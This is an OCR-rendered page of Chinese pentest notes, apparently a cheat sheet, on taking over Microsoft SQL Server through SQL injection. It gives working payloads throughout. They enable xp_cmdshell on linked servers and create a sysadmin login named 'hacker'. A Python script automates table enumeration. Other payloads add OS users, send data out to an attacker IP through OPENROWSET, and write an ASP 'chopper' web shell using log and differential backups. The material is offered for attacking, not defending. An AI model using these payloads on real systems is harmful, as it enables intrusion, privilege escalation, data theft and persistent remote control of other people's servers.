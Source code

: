 	执行shell命令
	EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
	select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

	创建用户给权限
	EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
	EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
 ##### 拿shell
	判断数据库
	;and (select count(*) from sysobjects)>0 mssql
	;and (select count(*) from msysobjects)>0 access
	查库
	?id=1 and (SELECT top 1 Name FROM Master..SysDatabases)>0 --
	?id=1 and (SELECT top 1 Name FROM Master..SysDatabases where name not in ('master'))>0 --
	查表
```python
import requests
import re
table_list = ['']
	def get_sqlserver_table(table_list, table_num):
		for num in range(0,table_num):
			# print("','".join(table_list))
			sql_str = "and (select top 1 name from [xxxx].sys.all_objects where type='U' AND is_ms_shipped=0 and name not in ('{}'))>0".format("','".join(table_list))
			url = "http://www.xxxxx.cn/x.aspx?cid=1' {} AND 'aNmV'='aNmV".format(sql_str)
			r = requests.get(url, headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36'})
			res = re.search(r'\'(.*)\'', r.content.decode('utf-8'),  re.M|re.I)
			table_name = str(res.group(1))
			table_list.append(table_name)
			print("[{}] - TableName: {}".format(str(r.status_code), table_name))
	if __name__ == "__main__":
		get_sqlserver_table(table_list, 16)
```
	判断是否存在xp_cmdshell
	and 1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')
	执行命令
	;exec master..xp_cmdshell "net user name password /add"—
	查看权限
	and (select IS_SRVROLEMEMBER('sysadmin'))=1--  //sa
	and (select IS_MEMBER('db_owner'))=1--   //  dbo
	and (select IS_MEMBER('public'))=1--  //public
	站库分离获取服务器IP
	;insert into OPENROWSET('SQLOLEDB','uid=sa;pwd=xxx;Network=DBMSSOCN;Address=你的ip,80;', 'select * from dest_table') select * from src_table;--
	LOG备份
	;alter database testdb set RECOVERY FULL --
	;create table cmd (a image) --
	;backup log testdb to disk = 'c:\wwwroot\shell.asp' with init --
	;insert into cmd (a) values ('<%%25Execute(request("chopper"))%%25>')-- 
	;backup log testdb to disk = 'c:\wwwroot\shell.asp' –
	2000差异备份
	;backup database testdb to disk ='c:\wwwroot\bak.bak';--
	;create table [dbo].[testtable] ([cmd] [image]);--
	;insert into testtable (cmd) values(木马hex编码);--
	;backup database testdb to disk='c:\wwwroot\upload\shell.asp' WITH DIFFERENTIAL,FORMAT;--
	2005差异备份
	;alter/**/database/**/[testdb]/**/set/**/recovery/**/full—
	;declare/**/@d/**/nvarchar(4000)/**/select/**/@d=0x640062006200610063006B00/**/backup/**/database/**/[testdb]/**/to/**/disk=@d/**/with/**/init--
	;create/**/table/**/[itpro]([a]/**/image)—